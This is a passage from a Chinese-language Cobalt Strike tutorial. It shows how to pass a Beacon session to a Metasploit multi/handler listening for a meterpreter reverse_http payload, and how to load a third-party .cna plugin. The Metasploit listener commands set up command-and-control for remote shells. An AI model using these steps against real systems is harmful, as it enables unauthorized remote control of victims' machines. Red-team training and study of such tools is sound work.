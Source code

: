 另一种方式是 Cobalt Strike Server 服务器上安装 MSF 直接 Spawn。

MSF 开启监听。

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set lhost 1.1.1.1
msf6 exploit(multi/handler) > set lport 1111
msf6 exploit(multi/handler) > run

[*] Stared HTTP reverse handler on http://1.1.1.1:1111
```

Cobalt Strike Foreign HTTP(S) 监听器则设置服务器公网地址和 MSF 中监听的 Port。将 Beacon Spawn 到此监听器即可。

### 插件

可以对 Cobalt Strike 利用功能进行扩展。

这里使用 [https://github.com/pandasec888/taowu-cobalt-strike](https://github.com/pandasec888/taowu-cobalt-strike) 做实例。

在菜单 Cobalt Strike -> Script Manager 打开 Scripts 标签 Load .cna 文件即可加载。

![插件加载成功.png](assets/1708583825-510d919eae528990ae68cbe428a93f26.png)

如果插件加载完包含中文乱码，可以在启动时加上 -Dfile.encoding=utf-8。

### 快捷键

控制台
